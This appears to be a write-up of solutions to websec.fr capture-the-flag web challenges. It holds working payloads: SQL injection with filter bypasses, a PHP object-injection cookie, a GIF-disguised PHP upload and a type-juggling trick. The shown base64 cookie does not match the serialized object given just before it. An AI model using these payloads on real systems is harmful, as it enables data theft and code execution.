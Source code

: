 ## websec.fr solutions
### level01

Payload

```
1/**/union/**/select/**/null,password/**/from/**/users/**/limit/**/2,1;--
Other User Details:
```

Response

```
WEBSEC{Simple_SQLite_Injection}
```

### level02

Payload

```
1/**/uniunionon/**/selselectect/**/null,password/**/frfromom/**/users;--
```

Response

```
WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
```

### level04

There is a PHP object injection vulnerability in the `leet_hax0r` cookie.

We first create a malicious serialized object: `O:3:"SQL":1:{s:5:"query";s:49:"SELECT password as username FROM users WHERE id=1";}`

Then we base64 encode it and set it as the cookie: `TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6Mzc6IlNFTEVDVCBwYXNzd29yZCBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO30=`

After refreshing the page, we get the flag: `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`


## level08

```php
GIF89a1 <?php echo file_get_contents("flag.txt"); ?>
```

Flag: `WEBSEC{BypassingImageChecksToRCE}`

### level17

Change `flag=` in POST request to `flag[]=`

Flag: `WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}`

### level25

`TBD`

Source

```
<?php

parse_str(parse_url($_SERVER['REQUEST_URI'])['query'], $query);

foreach ($query as $k => $v)
    if (stripos($v, 'flag') !== false)
        die('You are not allowed to get the flag, sorry :/');

include $_GET['page'] . '.txt';

?>
```

- Php wrappers won't work since we are required to put "flag" in the value for the parameter.
- Tried [this](https://security.stackexchange.com/questions/17407/how-can-i-use-this-path-bypass-exploit-local-file-inclusion) attack but got `414 Request-URI Too Large`.
